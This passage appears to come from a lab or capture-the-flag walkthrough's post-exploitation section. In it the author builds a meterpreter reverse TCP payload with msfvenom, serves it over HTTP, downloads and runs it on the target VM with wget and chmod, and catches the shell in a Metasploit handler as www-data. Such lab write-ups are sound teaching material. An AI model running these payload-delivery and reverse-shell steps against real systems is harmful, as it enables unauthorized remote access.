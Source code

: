 Success!

# [](#header-1)Post-Exploitation

# [](#header-2)Persistence

Now that we have a foothold it's time to enumerate the operating system and see if we can find a path to escalate our privileges.

Before we do that, to further demonstrate the functionality of metasploit I'll create a meterpreter payload using `msfvenom` and use my current shell to execute it.

*On the attacker VM*

`$ msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.1.1.128 LPORT=9002 -f elf > shell.elf`

`$ python -m SimpleHTTPServer`

*On the target VM*

```
cd /dev/shm
wget http://10.1.1.128:8000/shell.elf
```

*On the attacker VM*

```
Serving HTTP on 0.0.0.0 port 8000 ...
10.1.1.129 - - [10/Nov/2019 14:37:38] "GET /shell.elf HTTP/1.1" 200 -
```

`$ msfconsole`

`$ msf5 > use exploit/multi/handler`

`$ msf5 exploit(multi/handler) > set LHOST 10.1.1.128`

`$ msf5 exploit(multi/handler) > set LPORT 9002`

`$ msf5 exploit(multi/handler) > run`

```
[*] Started reverse TCP handler on 10.1.1.128:9002 
```

*On the target VM*

```
chmod +x ./shell.elf
./shell.elf
```

*On the attacker VM*

```
[*] Meterpreter session 3 opened (10.1.1.128:9002 -> 10.1.1.129:56938) at 2019-11-10 14:37:50 +1100

meterpreter > ls
Listing: /dev/shm
=============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100755/rwxr-xr-x  1107588  fil   2019-11-11 00:37:48 +1100  shell.elf

meterpreter > shell
Process 4055 created.
Channel 1 created.
whoami
www-data
exit
```